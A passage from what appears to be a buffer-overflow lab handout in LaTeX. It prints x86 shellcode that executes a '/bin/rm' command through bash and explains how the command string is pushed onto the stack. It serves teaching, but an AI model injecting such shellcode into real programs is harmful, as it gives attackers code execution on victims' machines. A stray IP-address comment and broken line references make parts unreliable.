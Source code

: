 \begin{lstlisting}[label=format:code:shellcode, 
   caption=Shellcode in \texttt{exploit.py} (can be downloaded from the lab's website)] 
# The following code runs "/bin/bash -c '/bin/rm /tmp/myfile'"
malicious_code= (
    # Push the command '/bin////bash' into stack (//// is equivalent to /)
    "\x31\xc0"                      # xorl %eax,%eax
    "\x50"                          # pushl %eax
    "\x68""bash"                    # pushl "bash"
    "\x68""////"                    # pushl "////"
    "\x68""/bin"                    # pushl "/bin"
    "\x89\xe3"                      # movl %esp, %ebx  

    # Push the 1st argument '-ccc' into stack (-ccc is equivalent to -c)
    "\x31\xc0"                      # xorl %eax,%eax
    "\x50"                          # pushl %eax
    "\x68""-ccc"                    # pushl "-ccc"
    "\x89\xe0"                      # movl %esp, %eax

    # Push the 2nd argument into the stack:
    #       '/bin/rm /tmp/myfile'
    # Students need to use their own VM's IP address
    "\x31\xd2"                      # xorl %edx,%edx
    "\x52"                          # pushl %edx
    "\x68""    "                    # pushl (an integer)  (*@\ding{192}@*)
    "\x68""ile "                    # pushl (an integer)
    "\x68""/myf"                    # pushl (an integer)
    "\x68""/tmp"                    # pushl (an integer)
    "\x68""/rm "                    # pushl (an integer)
    "\x68""/bin"                    # pushl (an integer)  (*@\ding{193}@*)
    "\x89\xe2"                      # movl %esp,%edx

    # Construct the argv[] array and set ecx
    "\x31\xc9"                      # xorl %ecx,%ecx
    "\x51"                          # pushl %ecx
    "\x52"                          # pushl %edx
    "\x50"                          # pushl %eax
    "\x53"                          # pushl %ebx
    "\x89\xe1"                      # movl %esp,%ecx

    # Set edx to 0
    "\x31\xd2"                      #xorl %edx,%edx

    # Invoke the system call
    "\x31\xc0"                      # xorl %eax,%eax
    "\xb0\x0b"                      # movb $0x0b,%al
    "\xcd\x80"                      # int $0x80
).encode('latin-1')
\end{lstlisting}
 

You need to pay attention to the code between Lines~ and~.
This is where we push the \texttt{/bin/rm} command string into the stack. In this task, you
do not need to modify this part, but for the next task, you do need to modify it. 
The \texttt{pushl} instruction can only push a 32-bit integer into the stack; that is why we
break the string into several 4-byte blocks. Since this is a shell command, adding additional
spaces do not change the meaning of the command; therefore, if the length of the string cannot
be divided by four, you can always add additional spaces.  The stack grows from high address to
low address (i.e., reversely), so we need to push the string also reversely into the 
stack.

